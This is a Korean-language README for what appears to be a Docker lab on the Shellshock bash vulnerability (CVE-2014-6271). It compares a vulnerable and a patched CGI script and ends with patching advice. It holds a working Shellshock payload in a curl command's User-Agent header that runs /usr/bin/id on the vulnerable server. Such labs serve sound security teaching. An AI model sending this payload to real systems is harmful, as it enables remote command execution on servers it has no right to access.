


# CVE-2014-6271

취약점 설명

CVE-2014-6271은 bash에서 발견된 보안 취약점으로 'Shellshock'라는 이름으로 알려져있다. 이 취약점은 Bash가 환경 변수를 처리하는 과정에서 발생한다. 특히 bash가 함수를 환경 변수로부터 받을 때, 뒤에 따라오는 추가 명령을 실행하는 문제가 있다.

환경 구성 및 실행

```
docker compose build
docker compose up -d
```
위 명령어를 실행하여 테스트 환경을 구축할 수 있다.
이를 통해 두 개의 cgi 스크립트가 호스팅되는 웹 서버 환경을 만든다:

safe.cgi - 최신 Bash를 사용하여 생성된 CGI 스크립트로,  Shellshock 취약점에 안전하다.
victim.cgi - Bash 4.3을 사용하여 생성된 CGI 스크립트로, Shellshock 취약점에 취약하다.

취약점 확인

사용자가 HTTP요청 도구를 사용하여 victim.cgi에 접근할 때 User-Agent부분에 취약점을 이용하여 명령어를 포함시킨 요청을 보낸다.
이 요청이 실행될 경우 취약점이 있는 bash를 사용하는 서버에서 명령어가 실행된다.
반면 safe.cgi는 패치가 진행된 bash를 사용하여 동일한 요청에도 영향을 받지 않는 것을 확인할 수 있다.

아래 명령어를 통해 이를 확인할 수 있다.

1. 취약한 bash의 경우
```
curl -v http://your_ip_address:8080/victim.cgi -H "User-Agent: () { foo; }; echo; echo; /usr/bin/id" --output response.txt
cat response.txt
```
아래와 같이 '/usr/bin/id' 명령이 실행된 것을 확인할 수 있다.


2. 안전한 bash의 경우
```
curl -v http://your_ip_address:8080/safe.cgi -H "User-Agent: () { foo; }; echo; echo; /usr/bin/id" --output response.txt
cat response.txt
```
아래와 같이 '/usr/bin/id' 명령이 실행되지 않는 것을 확인할 수 있다.


정리

이 취약점은 공격자가 원하는 코드를 원격으로 실행할 수 있도록 하여, 취약한 시스템에 대한 제어가 가능하게 한다. bash를 사용하는 시스템이 매우 많아 이 취약점은 광범위한 영향을 끼쳤다. 
이러한 취약점에 대응하기 위해 bash의 버전을 업데이트 하여 사용하여야 하고, 취약한 bash를 사용하는 시스템들을 점검하여야 한다.
